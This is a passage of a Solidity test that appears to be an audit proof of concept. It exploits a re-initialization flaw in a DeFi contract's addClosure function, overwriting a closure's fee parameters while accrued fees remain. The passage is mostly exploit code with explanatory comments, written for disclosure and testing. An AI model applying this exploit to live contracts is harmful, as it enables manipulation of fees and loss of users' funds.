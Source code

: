 ```solidity
        console.log("Initial targetX128:", initialTargetX128);
        console.log("Initial baseFeeX128:", initialBaseFeeX128);
        console.log("Initial protocolTakeX128:", initialProtocolTakeX128);

        // Step 2: Simulate accrued fees by manually setting them using storeManipulatorFacet
        uint256[MAX_TOKENS] memory earningsPerValueX128;
        earningsPerValueX128[0] = 5e18;
        earningsPerValueX128[1] = 3e18;
        earningsPerValueX128[2] = 7e18;
        uint256 bgtPerBgtValueX128 = 1e18;
        uint256[MAX_TOKENS] memory unexchangedPerBgtValueX128;
        unexchangedPerBgtValueX128[0] = 2e18;

        storeManipulatorFacet.setClosureFees(
            0x7,
            initialBaseFeeX128,
            initialProtocolTakeX128,
            earningsPerValueX128,
            bgtPerBgtValueX128,
            unexchangedPerBgtValueX128
        );

        // Verify fees were set correctly
        (,, uint256[MAX_TOKENS] memory actualEarnings, uint256 actualBgtPerValue,) = simplexFacet.getClosureFees(0x7);
        assertEq(actualEarnings[0], 5e18, "Earnings should be set correctly before exploit");
        assertEq(actualBgtPerValue, 1e18, "BGT per value should be set correctly before exploit");

        // Print fees for debugging
        console.log("Earnings[0] before exploit:", actualEarnings[0]);
        console.log("BGT per value before exploit:", actualBgtPerValue);

        // Step 3: Prepare token transfers for the re-initialization call
        // The `addClosure` function calls `Closure.init`, which requires `target` amount per token.
        uint128 newStartingTarget = 100e18; // We'll use this value in the exploit call
        for (uint8 i = 0; i < 3; i++) {
             // Calculate real amount needed for the *new* target value during the exploit call
            uint256 realNeededForExploit = AdjustorLib.toReal(tokens[i], newStartingTarget, true);
            deal(tokens[i], owner, realNeededForExploit);
            IERC20(tokens[i]).approve(address(diamond), realNeededForExploit);
        }

        // Step 4: Exploit - Call addClosure again with the same ID (0x7) but different parameters
        // Note that we're changing both the fee structure and the target value
        uint128 newBaseFeeX128 = 2e10;      // New fee rate
        uint128 newProtocolTakeX128 = 3e6;  // New protocol share

        // This overwrites the existing closure parameters but keeps accrued fees
        // The root cause is that SimplexFacet.addClosure accesses the storage directly
        // via Store.load().closures[cid] rather than using Store.closure(cid) which has checks,
        // and Closure.init() itself doesn't check for prior initialization.
        simplexFacet.addClosure(0x7, newStartingTarget, newBaseFeeX128, newProtocolTakeX128);

        // Step 5: Verify what has been overwritten and what remains intact
        (uint8 newN, uint256 newTargetX128After,, uint256 newValueStakedAfter,) = simplexFacet.getClosureValue(0x7);
        (
            uint256 newBaseFeeX128Actual,
            uint256 newProtocolTakeX128Actual,
            uint256[MAX_TOKENS] memory newEarnings,
            uint256 newBgtPerValue,
        ) = simplexFacet.getClosureFees(0x7);
```